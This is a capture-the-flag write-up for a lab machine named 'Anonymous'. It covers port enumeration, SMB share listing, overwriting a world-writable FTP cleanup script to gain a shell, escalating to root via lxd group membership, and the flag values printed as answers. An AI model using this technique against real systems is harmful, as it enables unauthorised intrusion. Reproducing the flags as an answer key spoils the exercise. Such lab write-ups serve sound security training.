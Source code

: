 # Anonymous


# Solutions

## 1 - Enumerate the machine.  How many ports are open?

Lets do an nmapy boy :)

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later                                                                                                                         
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                  
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]                                                                                      
| ftp-syst:                                                                                                                                                             
|   STAT:                                                                                                                                                               
| FTP server status:                                                                                                                                                    
|      Connected to ::ffff:10.9.128.84                                                                                                                                  
|      Logged in as ftp                                                                                                                                                 
|      TYPE: ASCII                                                                                                                                                      
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text 
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable 
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Nmap also had smb shares references, might come handy later

**Answer:** 4

## 2 - What service is running on port 21?

**Answer:** ftp

## 3 - What service is running on ports 139 and 445?

**Answer:** smb

## 4 - There's a share on the user's computer.  What's it called?

With enumeration over the share, we got its name. For this i used enum4linux but we could've enumerated it manually

```bash
Sharename       Type      Comment                                                                                                   
---------       ----      -------                                                                                                   
print$          Disk      Printer Drivers                                                                                           
pics            Disk      My SMB Share Directory for Pics                                                                           
IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```

**Answer:** pics

## 5 - user.txt

After poking around with enum4linux and crackmapexec i ended up finding that we can actually overwrite the script found in the FTP's scripts folder because we have write permissions for it

```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
```

Just for confirmation, i uploaded a bash script that pings me 3 times

```bash
#!/bin/bash
ping -c 3 10.9.128.84
```

And we got it :D, lets revshell it

```bash
# cmd: whoami && id
namelessone
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# cmd: cat user.txt
90d6f992585815ff991e68748c414740
```

**Answer:** 90d6f992585815ff991e68748c414740

## 6 - root.txt

The user have very interesting groups tho, more specifically that **lxd** one. Why? check [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) out :p

Annnnnd here we go

```bash
# cmd: whoami && id
root
uid=0(root) gid=0(root)

# cmd: cat /mnt/root/root/root.txt
4d930091c31a622a7ed10f27999af363
```

**Answer:** 4d930091c31a622a7ed10f27999af363

